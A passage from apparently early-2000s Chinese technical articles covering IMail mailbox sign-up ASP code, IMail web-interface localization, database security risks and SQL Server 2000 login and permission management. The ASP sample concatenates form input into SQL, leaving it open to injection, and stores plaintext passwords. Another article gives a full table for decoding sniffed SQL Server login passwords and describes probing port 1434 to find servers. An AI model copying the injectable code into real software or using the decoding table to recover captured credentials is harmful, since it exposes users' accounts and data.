    elseif document.form1.txtpsw.value <> document.form1.txtpsw2.value then
        msgbox "两次输入的密码不一样！请重新输入！"
        exit function
    end if
    document.form1.submit()
end function
```

在 HTML 文件中引用 asp 文件 useradd.asp：
`<form method="post" action="useradd.asp" name="form1">`

此 HTML 文件的完整源代码附后，文件名是 useradd.html。

接下来撰写 useradd.asp。必须定义 IMail 的用户数据源的位置，然后从 useradd.html 得到相关的表单，判断所提交的账户名是否已经存在，如果存在就提示账户已经被别人已经占用。否则，就将得到的表单信息写入 IMail 用户数据库生成邮箱账户。关键代码如下：

```asp
<%response.expires=0%>
<%
dim recUserAdd
dim newFloder
dim IMaildir
IMaildir="d:\IMail\users\"
' 用户邮箱存放目录，视 IMail 的安装目录而定，此处是 d:\IMail\users\
dbname="DSN=IMailSecDB"
' 指定 IMail 的 ODBC 数据源
userid=request.form("txtID")
nameid=request.form("nmID")
set recUserAdd=server.createobject("adodb.recordset")
sql="select * from fccece.net where userid='" & userid & "'"
' 此处 IMail 的域名是 fccece.net，在 user.mdb 中的表里表示为 fccece.net
recUserAdd.open sql,dbname,1,3
' 下面是验证所提交的账户名称是否已使用，如果已存在就提示出错信息，否则继续处理
if not recUserAdd.eof then
    response.write("<h1>错误：用户已存在！</h1>请使用其他名称<br>")
    response.write("<a href='useradd.html'>返回申请页面</a>")
else
    ' 根据 useradd.html 所提交的信息在 IMail 的用户数据库添加信息
    password = request.form("txtpsw")
    recUserAdd.addnew
    recUserAdd("userid") = userid
    recUserAdd("password") = password
    recUserAdd("fullname") = nameid
    recUserAdd("userdir") = IMaildir & userid
    recUserAdd("mailaddr") = userid & "@fccece.net"
    recUserAdd("maxsize") = 1024000
    recUserAdd("maxmsgs") = 0
    recUserAdd("flags") = 128
    recUserAdd("type") = 0
    recUserAdd.update

    ' 以下为出错处理
    on error resume next
    set newfloder = server.createobject("scripting.filesystemobject")
    application.lock
    set r = newfloder.createfolder(IMaildir & userid)
    application.unlock
    set r = nothing
end if
%>
```

最后在 `<HTML></HTML>` 之间加上相关语句就可以了，在相应地方写上 `<%=变量名%>` 就能显示。把这两个文件放在一个文件夹，如 `D:\wwwroot\mail`。然后在 IIS 设置一个虚拟目录，命名为“mail”；然后指定此虚拟目录的真实物理路径。最后指定此虚拟目录的文档属性：添加“useradd.html”作为默认文档。至此，IMail 的邮箱申请页面就做成了。

### 四、汉化 Web 界面

用户可以不借助邮件客户端软件，利用浏览器也可以访问自己的电子邮件，就像 Internet 上的 Web 邮件网站一样。按照 IMail 的默认设置，用户可以在浏览器的地址中输入：`http://安装IMail服务器的IP或DNS名称:8383`。使用 IMail 的 Web 用户日程表是：`http://安装IMail服务器的IP或DNS名称:8484`。

IMail 的 Web 界面倒是简洁，可惜都是英文，给英文基础不好的用户造成了一定的不便。而且，界面没有专业邮件服务网站的美观、个性。但是 IMail 的 Web 界面该有的功能一样都不缺。其实可以使用擅长的网页编辑软件，如 Dreamweaver 来修改 IMail 目录下的子目录 Web 下的相关文件，来达到汉化、美观 IMail 默认的 Web 界面。

IMail 的 Web 界面是以 HTML 文件和 CGI 程序相结合，只要熟悉 HTML，加之有一定的英文底子，就可以自己汉化 Web 界面。由于 IMail 的 Web 页面多达 200 多个，限于篇幅，此处不准备一一列举 HTML 文件的作用和名称，只列举几个比较常用的 HTML 文件。

- 登录页面：login.html、frames.html。
- 主屏幕页面：menu.html。
- 发送邮件页面：sendmail.html。
- 搜索邮件页面：search.html。
- Web 邮箱主界面页面：msgsum.html。
- 阅读邮件页面：readmail.html。
- 回复邮件页面：replaymsg1.html。
- 转发邮件页面：fwdmsg1.html、chgfwd.html、fwdmsg.html。
- 更改用户邮箱口令的页面：chgpass.html、chpasuad.html。
- 编辑用户信息页面：chgldap.html。
- 通讯录页面：ab.html。
- 邮箱管理页面：subfold.html。
- 自动回复设置页面：pref.html、autoresp.html、chgvac.html。
- 自动转信设置页面：chgfwd.html。
- 设置用户签名页面：chgsign.html、chgplan.html。

带 `cs_` 前缀的文件都是帮助文件。汉化完毕的 HTML 文件，笔者已经打包附后，读者可以将此压缩包解压释放到 `\IMail\Web` 下，覆盖原有的 HTML 文件。注意：须做好备份。IMail 也提供 Web 形式的用户日程列表，其 Web 页面放在 `\IMail\Web\Calendar\`，需要汉化的 HTML 文件也多达 100 个。笔者也已经将汉化完的 HTML 文件打包附后，只要将此解压释放到 `\IMail\Web\Calendar\` 就可以达到汉化 Web 界面的目的。

附：useradd.html 完整源代码；useradd.asp 完整源代码；\IMail\Web\HTML 文件压缩包；\IMail\Web\Calendar\HTML 文件压缩包。

> 编者按：本文是一篇关于“数据库安全”的全面宏观论述文章，作者虽然并没有具体深入就个别安全问题做技术分析，但从宏观角度全方位纵谈了数据库安全机理，特别是行业中普遍存在的非安全性应用现状，几乎涵盖了数据库所有安全隐患方面的技术论述，对于广大数据库企业及个人用户的数据库安全应用管理具有普遍参考和指导意义。

### 保护数据库服务器
#### 加强数据库安全

翻译 / refdom
原文 / Securing Database Servers ISS

数据库是电子商务、金融以及 ERP 系统的基础，通常都保存着重要的商业伙伴和客户信息。数据的完整性关系到系统安全，这在数据库中非常重要，但是数据库通常没有像操作系统和网络这样在安全性上受到重视。数据完整性和合法访问会受到很多方面的安全威胁，包括密码策略、系统后门、数据库操作以及本身的安全方案。

DBA 都全天候工作来管理这些复杂的系统。但是，安全漏洞和不当的配置通常会造成严重的后果，而且都难以发现。一些安全公司也忽略数据库安全，数据专家又不把安全作为主要职责。“网络安全适应性”哲学——把安全当作持续过程而不是一次性的检查，还没有被数据库管理员认可。

### 为什么数据库安全很重要？

- **1. 保护敏感信息和数据资产**
  大多数企业、组织以及政府部门的电子数据都保存在各种数据库中。他们用这些数据库保存一些个人资料，比如员工薪水、医疗记录、员工个人资料等等。数据库服务器还掌握着敏感的金融数据。包括交易记录、商业事务和账号数据，战略上的或者专业的信息，比如专利和工程数据，甚至市场计划等等，应该保护起来防止竞争者和其他非法者获取的资料。数据库服务器还保存着一些有关员工详细资料的内容，比如银行账号、信用卡号码，以及一些商业伙伴的资料。

- **2. 数据库同系统紧密相关并且更难正确地配置和保护**
  数据库应用程序通常都同操作系统的最高管理员密切相关。比如 Oracle、Sybase、MS SQL Server 数据库系统都有下面这些特点：用户账号和密码、认证系统、授权模块和数据对象的许可控制、内置命令（存储过程）、特定的脚本和程序语言（通常派生自 SQL）、中间件、网络协议、补丁和服务包、数据库管理和开发工具。许多 DBA 都全天候工作来管理这些复杂的系统。但是，安全漏洞和不当的配置通常会造成严重的后果，而且都难以发现。

- **3. 网络和操作系统的安全被认为非常重要，但是却不这样对待数据库服务器**
  安全专家认为这是一种普遍现象，他们都认为只要把网络和操作系统的安全搞好了，那么所有的应用程序也就安全了。现在的数据库系统都有很多方面被误用或者漏洞影响到安全。而且这些关系数据库都是“端口”型的，这就表示任何人都能够用分析工具试图连接到数据库上，而绕过操作系统的安全机制。比如：Oracle 7.3 和 Oracle 8 使用的端口是 1521 和 1526。多数数据库系统也有公开的默认账号和默认密码。这两个特性大大地危害着数据库的安全。

- **4. 少数数据库安全漏洞不光威胁数据库的安全，也威胁到操作系统和其他可信任的系统**
  这也是为什么数据库安全很重要的原因：有些数据库提供机制威胁着网络安全底层。比如，某公司的数据库里面保存着所有技术文档、手册和白皮书，不认为数据库的安全非常重要。即使运行在一个非常安全的操作系统上，入侵者可能通过数据库获得操作系统权限。只需要执行一些内置在数据库中的扩展存储过程，这些存储过程能提供一些执行操作系统命令的接口，而且能访问所有的系统资源。如果这个数据库服务器还同其他服务器建立着信任关系，那么，入侵者就能够对整个域机器的安全产生严重威胁。

- **5. 数据库是电子商务、ERP 系统和其他重要的商业系统的基础**
  许多电子交易和电子商务的焦点都放在 Web 服务、JAVA 和其他技术上，那么对于以关系数据库为基础的客户系统和 B2B 系统，数据库就显得更加重要。安全将直接关系到系统可靠性、数据事务完整性和保密性。系统如果出现问题，将不仅仅对交易产生影响，同时也影响着公司的形象。这些系统需要对所有合作伙伴和客户信息的保密性负责，但是它们又同时是对入侵者开放的。另外，ERP 和像 SAP R/3 这样的管理系统都是建立在一些基本数据库系统上的。安全问题将直接同维护时间、系统完整性和客户信任密切相关联。

### 需要注意哪些安全漏洞？

传统数据库安全主要集中在用户账号、规则和操作许可（比如对表和存储过程的访问权）上。而实际上，一个完全的数据库安全分析包含的范围宽得多，包括所有可能范围内的漏洞评定。下面是一些类别：

- **软件风险**：软件本身漏洞，错过操作系统补丁，脆弱的服务和不安全的默认配置等。
- **管理风险**：提供的安全选项不正确操作，默认设置，不正确地给其他用户提供权限，以及没有得到许可的系统配置改变等。
- **用户行为风险**：密码不够长，不恰当的数据访问和恶意操作（偷窃数据结构）等。

这些风险类别也同样适用于网络服务、操作系统。当加强数据库安全的时候，所有的因素都应该考虑。

### 数据库安全——弱点和例子

下面列出一些常用数据库服务器安全漏洞和配置缺陷。

#### 安全特性缺陷

大多数关系数据库已经存在十几年了，都是成熟的产品。不幸的是，IT 和安全专家对网络和操作系统要求的许多特性在多数关系数据库上还没有被使用。没有内置一些基本安全策略。

| 安全特性 | MS SQL Server | Sybase | Oracle 7 |
| :--- | :---: | :---: | :---: |
| 账号锁定 | N | N | N |
| 管理员账号重命名 | N | N | N |
| 账号健壮性要求 | N | N | N |
| 账号失效 | N | N | N |
| 密码失效 | N | Y | Y |
| 登录时间限制 | N | N | N |

由于这些数据库都是“端口性”的，操作系统核心安全机制不提供给数据库的网络连接。比如 MS SQL Server 可以使用 Windows NT 的安全机制来弥补上面的缺陷，但是，多数运行 MS SQL Server 的环境并不一定都是 100% 的 Windows NT。

上面列举的这些特性缺失如果连起来看，将更加严重。由于系统管理员账号不能改变（SQL Server 和 Sybase 是 “sa”，Oracle 是 “system” 和 “sys”），如果没有设置密码，入侵者就能直接登录并攻击数据库服务器，没有任何东西能够阻止他们获得更高权限的系统账号。

#### 数据库账号管理

多数数据库提供的基本安全特性，都没有机制来限制用户必须选择健壮的密码。这就需要更加谨慎的控制和管理。也有一些额外的功能来管理和保护整个密码表。比如，Oracle 系统有超过 10 个特殊的默认用户账号和密码，并且有特定的密码来管理一些数据库操作，比如数据库的启动、控制网络监听进程和远程数据库登录特权。许多系统密码都能给入侵者完全访问数据库的机会，更甚的是，有些就储存在操作系统中的普通文本文件中。比如：

- **Oracle 内部密码**：储存在 `strXXX.cmd` 文件中（其中 XXX 是 Oracle 系统 ID 即 SID，默认是“ORCL”）。这个密码用于数据库启动进程，提供完全访问数据库资源。这个文件在 Windows NT 中需要严格设置权限。
- **Oracle 监听进程密码**：保存在文件 `listener.ora` 中，用于启动和停止 Oracle 的监听进程。这需要设置一个健壮的密码来代替默认的，并且必须对文件访问设置权限。入侵者可以通过这个弱点进行 DOS 攻击。
- **Oracle 内部密码——“orapw”文件**：Oracle 内部密码和账号密码允许 SYSDBA 角色保存在 `orapw` 文本文件中，该文件的访问权限应该被限制。即使加密，也能被入侵者暴力破解。

### 深入探索 MS SQL Server 2000
#### 网络连接的安全问题

> 编者按：MS SQL Server 2000 问世不久，有关其安全性的讨论已有不少，本文作者经自己的深入研究，独辟蹊径地就 SQL Server 2000 网络连接安全性方面存在的先天不足之处，特别是“密码明文传输”问题进行了细致和颇有见地的论述，这也许是很多 MS SQL Server 2000 企业及个人用户所忽视甚至完全没有意识到的重大安全隐患。

文 / refdom

现在越来越多的网站是架构在数据库上的，而数据库的安全也是常常被管理员忽略的。下面我们要说的，并不是 SQL Server 存在的漏洞，而只是一些安全缺陷。

### 1. MS SQL Server 的密码明文传输缺陷

SQL Server 的连接过程先进行 TCP 连接的三次握手，同服务器建立连接后，进行 TDS（Tabular Data Stream）协议的数据交流。在登录（Login）包中，你会发现用户名完全是明文的，而密码虽然经过了简单编码，但本质上也是脆弱的。

相同字符的编码是一样的，密码字符之间用一个相同的字符作为分隔“a5”。以下是 SQL Server 2000 对应的字符编码映射示例：

| 字符 | 编码 | 字符 | 编码 | 字符 | 编码 | 字符 | 编码 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| a | 0xb3 | A | 0xb1 | 1 | 0xa3 | ! | 0xb6/0xb7 |
| b | 0x83 | B | 0x81 | 2 | 0x86 | @ | 0xa1 |
| c | 0x93 | C | 0x91 | 3 | 0x96 | # | 0x97 |
| d | 0xe3 | D | 0xe1 | 4 | 0xe6 | $ | 0xe7 |
| e | 0xf3 | E | 0xf1 | 5 | 0xf6 | % | 0xf7 |
| f | 0xc3 | F | 0xc1 | 6 | 0xc6 | ^ | 0x40 |
| g | 0xd3 | G | 0xd1 | 7 | 0xd6 | & | 0xc7 |
| h | 0x23 | H | 0x21 | 8 | 0x26 | * | 0x07 |
| i | 0x33 | I | 0x31 | 9 | 0x36 | ( | 0x27 |
| j | 0x03 | J | 0x01 | 0 | 0xa6 | ) | 0x37 |
| k | 0x13 | K | 0x11 | - | 0x77 | _ | 0x50 |
| l | 0x63 | L | 0x61 | = | 0x76 | + | 0x17 |
| m | 0x73 | M | 0x71 | \ | 0x60 | \| | 0x62 |
| n | 0x43 | N | 0x41 | [ | 0x10 | { | 0x12 |
| o | 0x53 | O | 0x51 | ] | 0x70 | } | 0x72 |
| p | 0xa2 | P | 0xa0 | ' | 0xd7 | " | 0x87 |
| q | 0xb2 | Q | 0xb0 | ; | 0x67 | < | 0x66 |
| r | 0x82 | R | 0x80 | , | 0x47 | > | 0x46 |
| s | 0x92 | S | 0x90 | / | 0x57 | ? | 0x56 |
| t | 0xe2 | T | 0xe0 | : | 0x06 | | |

在 TDS 数据报的头中，我探测到 Login 数据报类型是 0x10。虽然 MS 提供 SSL 加密办法，但如果没有正确配置 SSL 证书，强制开启协议加密会导致 SQL Server 服务无法启动。

### 2. 明文的数据传输缺陷

如果没有使用加密协议，那么整个数据库的网络数据都是明文传输的。无论是从客户端发送命令还是从服务器端得到结果，在网络上都能被嗅探到。

### 3. 神秘的 1434 端口和服务器信息明文传输缺陷

对于 SQL Server 2000 来说，当客户端拉开服务器列表时，局域网内所有的服务器都会被列出来。这是因为客户端通过 1434 端口发送了 UDP 广播包。

所有运行 SQL Server 2000 的计算机都监听此端口。当服务器收到广播请求时，会返回一个包含所有实例信息的包，包括主机名称、实例名称、版本、管道名称以及使用的端口等。这个 1434 端口是固定的，即使更改了 1433 端口，通过 1434 端口依然能被探测到。

经过测试，发送 02、03、04 字节都会有回应，这些字节用于 SQL Server 探测。以下是一个利用 1434 端口进行探测的程序逻辑，它通过发送特定字节并捕获响应来识别数据库服务器。

---

> 编者按：SQL Server 作为当前主流企业级数据库系统，已在各级企业中得到广泛应用。虽然微软对该产品的安全性提供了精心设计，但任何软件产品都不能以绝对安全自居。本文作者针对 SQL Server 企业应用中常见和易被忽视的安全性问题进行了综述，涵盖安全管理主旨，值得参考。

### 项目开发中 SQL Server 的安全性应用

文 / 贾佳

在项目开发中，数据库的安全性是不容忽视的。SQL Server 的安全性是指保护数据防止因不合法的使用而造成数据的泄密和破坏。这需要采取一定的安全性保护措施，如检查登录口令、检查用户操作权限等。本文从创建登录名、管理数据库用户名、管理服务器与数据库角色、管理权限等多方面阐述其应用。

### 一、创建登录名

- **1. 为登录名添加 Windows NT/2000 账号**
  通常可以通过图形方式指定。当选用 NT 验证模式时，Windows NT/2000 的管理员组（Administrators）是唯一能访问 SQL Server 的组。所有该组中的账户都将被映射成 `BUILTIN\Administrators` 登录名，具有 SA 权限。这带来了一定的安全隐患。为了解决这个问题，建议另外创建一个组，将特定的 SQL Server 管理员加入其中，然后对该组进行授权，以此细化权限管理。并删除 Windows NT/2000 管理员对 SQL Server 的管理权限。这样，就不是所有管理员账户都可以管理 SQL Server 了，也达到了我们的目的。下面给出具体操作步骤。

- 1. 启动 SQL Server 企业管理器。展开服务器后，再展开 SECURITY 选项。
- 2. 用鼠标右击 LOGINS 图标，在 “NAME:” 中输入用户名，在 “DOMAIN:” 中选择或输入域名。保持缺省选项 “GRANT ACCESS”，单击 “确定” 按钮。
- 3. 选择 “DATABASE ACCESS” 表单，选择该用户可以访问的数据库，并创建数据库用户。

### 2、创建 SQL Server 登录名（用于 SQL Server 验证模式）

（1）使用系统存储过程 `sp_addlogin` 可创建 SQL Server 登录名。这个系统存储过程有 4 个参数，但只有第一个是必须的。下面将给出这些参数：

- `login`：这是要被创建的登录标识。它是唯一必须给定值的参数，而且它必须是有效的 SQL Server 对象名。
- `password`：这是用户登录时所用的口令，可以空着不填，但为了安全性考虑还是应该设置其值。
- `default database`：这个参数是指明当用户使用 QUERY ANALYZER 登录后所使用的数据库名称。如果没有指定，在登录后将默认为 master 库。
- `sid`：存在于每个数据库中 sysusers 表中，用来将登录名和用户相连接。sid 和登录名必须唯一。

下面给出一个具体实例：

```sql
sp_addlogin "jiasys", "password", "library"
返回结果：New login created.
```

在这个例子中，创建了一个叫 jiasys 的登录名。缺省数据库为 library，口令为 password。在这里虽然指定了缺省的数据库名称，但并没有为登录名在该数据库中增加对应的用户名，这个登录名将自动使用缺省数据库中的 GUEST 用户。如果用户试图用一个登录名去连接一个授权的数据库时，SQL Server 将以 GUEST 用户来映射这个登录名。如果数据库中没有 GUEST 用户，连接将被禁止。如果使用 QUERY ANALYZER，那么 QUERY ANALYZER 会将这个登录名连接到 master 数据库中，因为 master 数据库中有 GUEST 用户对象。

## 二、管理数据库用户名

### 1、数据库用户名与登录名的关系

在 SQL Server 中，登录对象和用户对象是 SQL Server 进行权限管理的两种不同的对象。一个登录对象是服务器方的一个实体，使用一个登录名可以与服务器上的所有数据库进行交互。用户这种对象是一个或多个登录对象在数据库中的映射，可以对用户对象进行授权，以便为登录对象提供对数据库的访问权限。

用户获得一个登录名后，便可以立即在服务器上进行登录。但如果没有任何用户对象与之相对应，那么他什么也干不了。登录对象就像是驾驶证，它只为司机提供驾驶车辆的认可，但不能为司机提供使用汽车的权利。但当一个登录名被映射到一个用户对象时，就像将汽车钥匙交给司机一样。司机驾驶汽车需要驾驶证和使用汽车的权利。一个登录名可以被授权访问多个数据库，就像一个有驾驶证的人，可以有多辆不同汽车的钥匙一样。但是，如果给一个有驾驶证的人多把不同却能开同一辆车的钥匙，就很难理解。相同道理，一个登录名在每个数据库中只能映射一次。

每个数据库都会有一个叫 `sysusers` 的表，这个表包含了在数据库中的所有用户对象，以及和他们相对应的登录名的标识。只有在 `master` 数据库中的 `syslogins` 表中，才会保存所有的登录名以及口令。所以，当一个登录名试图访问一个数据库时，SQL Server 将在库中的 `sysusers` 表中查找对应的登录名。如果不能将登录名映射到数据库用户上，系统将试图该登录名映射成 GUEST 用户，如果还失败，那么这个用户将无法访问数据库。

### 2、创建数据库用户名

（1）使用系统存储过程 `sp_grantdbaccess` 创建数据库用户名。在通常情况下，每个登录名在其需要访问的数据库中要有一个映射的用户名，并且每个用户名只对应一个登录名。对于普通的数据库用户，这正是我们在项目开发中所期望的，因为这样允许数据库为每个用户对象分配各自的权限，同时也为在组内分配权限提供了最大的自由度。系统存储过程 `sp_grantdbaccess` 有两个参数，但只有第一个参数是必须填写的。下面将给出这些参数：

- `Login`：用户所对应的登录名。
- `User`：创建在数据库中的用户名，如果这个参数被缺省，一个和登录名相同的用户名将被加到数据库中，通常缺省这个参数。

这个系统存储过程只对当前的数据库进行操作，所以在执行它之前应该首先确认当前使用的是否是要增加用户的数据库。下面增加一个叫 `iasys` 的用户（映射的登录名是 `jiasys`）到当前的数据库中。

```sql
sp_grantdbaccess "jiasys"
```

### 3、改变数据库所有权

在 SQL Server 中一个用户是数据库所有者（database owner `dbo`），拥有数据库中所有的对象，也只能有一个数据库所有者，且数据库所有者不能被删除。通常登录名 `SA` 映射在数据库中的用户名是 `dbo`。必须使用 `sp_changedbowner` 系统存储过程来改变数据库所有权，这个系统存储过程是唯一改变数据库所有权的方法。注意：在 SQL Server 的企业管理器中没有类似功能。这个系统存储过程只有一个参数，即新的所有者的登录标识。然后登录标识将映射到 `dbo` 用户名上。

### 4、删除登录名与用户名

同样是用了两个系统存储过程：`sp_revokedbaccess` 和 `sp_droplogin`。以上面建立的登录名和用户名为例给出实现方法。

```sql
sp_revokedbaccess "jiasys" ——删除用户名
sp_droplogin "jiasys" ——删除登录名
```

## 三、管理服务器与数据库角色

### 1、管理角色介绍

通常项目开发中用户管理是一件令人头疼的事。最大的麻烦在于要确保用户能够访问到他们所需要的数据但又不能获得超出他们权限范围的数据。幸运的是 SQL Server 提供了此类机制。SQL Server 是通过角色来实现区分的。在 SQL Server 中又分服务器角色与数据库角色两种。服务器角色是服务器一级的一个对象，只能包含登录名。数据库角色是数据库一级的对象，就是说数据库角色只能包含数据库用户名而不能是登录名。

（1）在安装完 SQL Server 后，系统自动创建以下 7 个固定的服务器角色：

- `sysadmin`：能够执行任何任务。是系统的管理员组。
- `securityadmin`：负责系统的安全管理，能够管理和审核服务器登录名。
- `serveradmin`：能够设置服务器级的配置信息。
- `setupadmin`：能够安装复制。
- `processadmin`：能够管理 SQL Server 进程。
- `diskadmin`：能够管理磁盘文件。
- `dbcreator`：能够创建和修改数据库。

以上这些服务器角色均存放在 `master` 库中的 `syslogins` 表中。

（2）在安装完 SQL Server 后，系统自动创建以下 9 个数据库角色：

- `db_owner`：数据库属主，在特定数据库内，能够执行任何数据库任务。
- `db_accessadmin`：能够添加、删除数据库用户角色。
- `db_securityadmin`：能够分配语句和对象权限。
- `db_ddladmin`：能够添加、删除、修改数据库对象。
- `db_backupoperator`：能够备份和恢复数据库。
- `db_datareader`：能够从任意表中读出数据。
- `db_datawrite`：能够对任意表插入、修改和删除数据。
- `db_denydatareader`：不允许从表中读数据。
- `db_denydatawrite`：不允许改变表中的数据。

以上这些数据库角色均存放在每个数据库中的 `sysusers` 表中。

### 2、为服务器／数据库角色添加成员

（1）我们可以使用系统存储过程 `sp_addsrvrolemember` 将一个登录名加入到服务器角色中。系统存储过程 `sp_addsrvrolemember` 有两个参数，这两个参数是必须填写的：

- `loginname`：是指登录名。
- `role`：是指服务器角色名。

例如：将登录名 `jiasys` 添加到 `sysadmin` 角色中：
```sql
sp_addsrvrolemember "jiasys", sysadmin
```
在使用这条命令前，登录名必须存在。

（2）我们可以使用系统存储过程 `sp_addrolemember` 将一个用户加入到数据库角色中。系统存储过程 `sp_addrolemember` 有两个参数，这两个参数是必须填写的：

- `rolename`：是指数据库用户角色名。
- `membername`：是指数据库用户名。

例如：将数据库用户名 `jiasys` 添加到 `db_accessadmin` 角色中：
```sql
sp_addrolemember "jiasys", db_accessadmin
```
在使用这条命令前，用户必须存在。

### 3、创建／删除用户自定义的数据库角色

在项目开发中，有时需要自定义数据库角色来管理用户，下面我们就以实例说明如何添加和删除用户的自定义数据库角色。

（1）我们可以使用系统存储过程 `sp_addrole` 来为我们添加一个新的数据库角色。系统存储过程 `sp_addrole` 有两个参数，这两个参数是必须填写的：

- `role`：是指新增加的数据库角色。
- `ownername`：是指新增加的数据库角色的属主。

例如：我们增加一个叫财务（Accounting）的数据库角色：
```sql
sp_addrole "Accounting", dbo
```
需要注意的是，这个组名必须遵照 SQL Server 命名规则，而不能和任何用户名相同。

（2）我们可以使用系统存储过程 `sp_droprole` 来为我们删除一个已经不在需要的数据库角色。系统存储过程 `sp_droprole` 只有一个参数，且是必须填写的：

- `rolename`：是指你要删除的数据库角色。

例如：我们要删除一个叫财务（Accounting）的数据库角色：
```sql
sp_droprole "Accounting"
```
需要注意的是，被删除的数据库角色必须为空。所有用户必须事先被改变到其他的角色中去，如果试图使用 `sp_droprole` 删除一个非空的数据库角色，那么 SQL Server 将会提示错误信息。

### 4、用户、角色和系统表

角色和用户都保存在每个数据库的系统表中。系统表 `sysusers` 有这样的列：`suid`、`uid`、`gid` 和 `name`。对于用户来说一条典型的记录包括：`suid` 是用户在 `syslogins` 系统表中的对应值，`uid` 是用户在数据库中的用户标识，`gid` 用来表示组，实际上 `gid` 将被写到 `sysusers` 表的 `uid` 字段上。对角色的定义就是在 `sysusers` 表中 `gid` 与 `uid` 相等的行。对于 `public` 角色来说就是 `gid` 与 `uid` 都等于 0。用户自定义数据库角色的值从 `uid = 16384` 开始，所以可以非常容易地通过 `uid` 来确定表中的记录是表示用户的还是表示角色的。

当一个用户被增加到数据库时，在数据库的 `sysusers` 表中会加入一条记录。`sysusers` 表中包含的 `suid` 用来连接到 `syslogins` 表；`uid` 是用户的 ID；`gid` 是组的标识；`name` 是用户的名字。

## 四、权限管理

### 1、对象和对象属主

SQL Server 的对象包括所有的数据库和数据库中的对象。一个数据库中的对象可以是表、视图、存储过程、规则、用户自定义数据类型和缺省。每个对象都有一个属主（owner）。一般来说，对象的属主是创建该对象的用户。如果系统管理员创建了一个数据库，当系统管理员登录后，他在该数据库中的用户名将是 `dbo`（数据库属主）。如果一个用户创建了一个表，那么这个用户将对该表拥有权限。

所有的数据库对象都有属主。对象的属主是该对象名的一部分。数据库的属主拥有该数据库中的所有对象。如果你想查询 `pubs` 数据库中 `authors` 表中的内容，你可以键入如下命令：`SELECT * FROM authors`。但是，如果用户 `jiasys` 在 `pubs` 库中创建了一个 `Recipes` 表，你需要给出对该对象进一步限定的名字——`jiasys.Recipes`。任何一个有权在数据库中创建的用户都可以创建一个叫 `Recipes` 的表。在数据库中可以出现 `jiasys.Recipes`、`marry.Recipes`、`phil.Recipes` 等等。当一个数据库用户想访问一个对象时，如果不使用该对象属主的用户名加以限定，那么，首先将试图访问该用户拥有的对象，然后是数据库属主拥有的对象。

### 2、对象和语句权限介绍

上面我们了解了对象和属主关系，接下来我们介绍对象和语句权限。权限是用户账户的属性，用来完成特定的操作。SQL Server 有两种不同类型的权限。对象权限是用来控制一个用户是如何与一个对象进行交互操作的，特别是这个用户能否进行查询、删除、插入和修改一个表中的行，或能否执行一个存储过程。语句权限适用于创建和删除对象、备份和恢复数据库。

某些数据库中的用户根据他们在数据库中的角色被设定了某些缺省权限。这样的用户有四类：
- 第一类：系统管理员，可以创建和删除数据库，配置服务器。系统管理员永远拥有 master 数据库。
- 第二类：数据库属主，可以创建和管理数据库中的对象以及管理整个数据库。
- 第三类：对象属主，是特定对象的属主。对数据库来说，dbo 就是对象属主。一个对象属主可以在对象上进行授权或回收权限的操作而且可以删除对象。
- 第四类：数据库中的所有不是前三类的用户都属于这一类。

可以发现，权限是重叠的。最常用的配置是将系统管理员设置成数据库属主。这样，系统管理员可以创建、删除和管理数据库也可以管理服务器。另外，最普通的情况下，数据库属主拥有数据库中的所有对象，这样系统管理员可以同时担任前三类角色，其余的用户则担任第四种角色。

需要注意的是，每个用户无论他们拥有什么样的语句或对象权限，他们都可以创建、访问和删除临时表。在项目开发中使用中间过程的临时表，这点尤为要注意。

### 3、对象权限

上面提到，对象权限是用来控制一个用户是如何与一个对象进行交互操作的，有五个不同的权限：查询（SELECT）、插入（INSERT）、修改（UPDATE）、删除（DELETE）和执行（EXECUTE）。前四个权限是用于表和视图的，执行只用于存储过程。对象权限使用 `Grant` 语句来完成的，`Grant` 语句有三个参数：

- `<permission>`：可以是相应对象的任何有效权限的组合。可以使用关键字 `all` 来代替权限组合表示所有权限。
- `<object>`：被授权对象。这个对象可以是一个表、视图，表或视图中的一组列，或一个存储过程。
- `<user>`：被授权的一个或多个用户，或组。

在项目开发中，有时为安全性考虑，一个表只允许特定几个用户查询（SELECT），其他用户无权访问，在允许的特定用户中又只有一个用户才有完全查询（SELECT）表的权限；其他特定用户只能查询表中特定的列。而且这些用户又没有插入（INSERT）、修改（UPDATE）、删除（DELETE）等权限。那么我们该如何实现呢？下面我们将举例说明。

- 1. 运行 SQL Server 企业管理器和服务器建立连接。
- 2. 展开 Login 文件夹。
- 3. 在 Login 文件夹上单击鼠标右键选择 New Login：为新的用户创建登录名。在 login name 框中输入 `userA`，然后单击对应与 library 数据库的 Permit 列。library 数据库会自动创建一个 `userA` 用户。单击 Add 按钮，然后关闭对话框。
- 4. 重复步骤（3）创建 `userB`、`userC` 用户。
- 5. 打开 QUERY ANALYZER 窗口。以 `userA` 用户登录。输入查询语句 `SELECT * FROM member`。您将得到一条错误信息。这是因为 `userA` 用户并没有访问 `member` 表的权限。同样以上建立的 `userB`、`userC` 用户也都无权访问任何数据库对象。
- 6. 再打开 QUERY ANALYZER 窗口。使用 `sa` 登录名进行连接。在数据库的下拉框中选择 `library` 数据库。执行在步骤（5）的相同的 SQL 语句（`SELECT * FROM member`）。将得到 `member` 表中的内容。因为 `library` 数据库是由系统管理员创建的，所以他拥有数据库中的所有对象。
- 7. 在 SQL 管理器中的查询窗口输入下面语句为 `userA` 授予对 `member` 表的 SELECT 权限：`GRANT SELECT ON member TO userA`，输入完后按 F5 键运行，将得到完成提示。这表明 `userA` 已被正确授权。
- 8. 在以 `userA` 登录的 QUERY ANALYZER 窗口中，重新输入查询语句 `SELECT * FROM member` 便可以得到与第（6）步相同的结果。
- 9. 在以 `sa` 登录的 QUERY ANALYZER 窗口中，输入如下语句为 `userA` 授权于对 `Title` 表中的 `Title_on` 字段的访问权限：`GRANT SELECT ON title (title_on) to userA`。输入完后按 F5 键运行，将得到完成提示。这表明 `userA` 已被正确授权。
- 10. 在以 `userA` 登录的 QUERY ANALYZER 窗口中，输入下面的语句 `SELECT * FROM title`。输入完后按 F5 键运行，将得到错误提示。错误提示指出 `userA` 没有权限访问表中其他字段。但此时可以输入 `SELECT title_on FROM title`，输入完后按 F5 键运行将得到预期结果。

在上述例子中，已经完成了基本的授权实验，同时也看到了缺少权限访问对象时出现的错误。这样您就可以根据在项目开发中安全性的需要，来设置对象权限了。下面让我们来看如何将授予的权限收回。收回权限是使用 `Revoke` 语句来实现的。`Revoke` 语句也有三个参数，它们分别和 `Grant` 语句参数意义相同，这里不再说明。

###### 授权选项

如果一个对象的属主想允许被授权的用户也可以授权其他用户可以访问该对象，可以在 `Grant` 语句最后加上 `with grant option`，例如下面的语句：

